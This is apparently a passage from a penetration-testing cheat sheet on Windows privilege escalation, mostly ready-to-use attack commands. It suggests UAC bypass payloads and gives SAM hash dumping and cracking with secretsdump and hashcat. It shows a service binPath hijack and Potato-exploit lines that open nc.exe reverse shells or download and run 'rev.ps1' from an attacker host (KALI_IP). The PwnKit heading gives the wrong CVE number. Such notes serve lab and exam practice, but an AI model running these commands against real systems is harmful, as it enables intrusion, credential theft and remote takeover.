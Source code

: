 [UAC bypass exploit](https://github.com/ScriptKiddieTutorials/Bypass-UAC) (very useful for ARM devices since it does not require compilation)

To use the ps1 exploit, simply modify the last line of elev-function.ps1
to your desired payload, maybe a reverse shell payload created by msfvenom 
or using nc.exe to call a reverse shell.

#### GUI version
If you somehow obtain a GUI access like RDP, you simply need to right click the command prompt or powershell icon and select `run as administrator`

### local hash dump
If SAM file and SYSTEM file are available without getting admin access, use impacket-secretsdump
```bash
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```
Then save the admin hash to a file and  crack the admin hash with hashcat
```bash
hashcat -m 1000 admin.hash /usr/share/wordlists/rockyou.txt
```

### PE with service all access
```powershell
sc qc SERVICE
sc config SERVICE binPath= "cmd.exe /c powershell.exe -enc BASE64_PAYLOAD"
```

### Windows SEImpersonate privilege exploit
[Juicy Potato](https://github.com/ohpe/juicy-potato)

[God Potato](https://github.com/BeichenDream/GodPotato)

[Sweet Potato](https://github.com/uknowsec/SweetPotato/blob/master/README.md)
```
# Juicy Potato
# remember to specify /c since we are passing in arguments to cmd.exe
juicy.exe  -l 12345 -p C:\Windows\system32\cmd.exe -a "/c c:\windows\Temp\nc.exe -e cmd.exe KALI_IP 4443" -t * -c "CLSID" 
#call a ps session
\juicy.exe  -l 12345 -p C:\Windows\system32\cmd.exe -a "/c powershell -ep bypass IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')" -c "CLSID"
#god potato
.\potato.exe -cmd "cmd /c powershell -ep bypass IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')"
#sweet potato
.\potato.exe -a "powershell.exe -ep bypass IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')"
```

### CVE 2021-3034 PwnKit exploit
[Python 3](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py )

[Python 2](https://gist.github.com/Ayoub-2/9f52583daec92ba2d81b4c4b4cbfe902)  
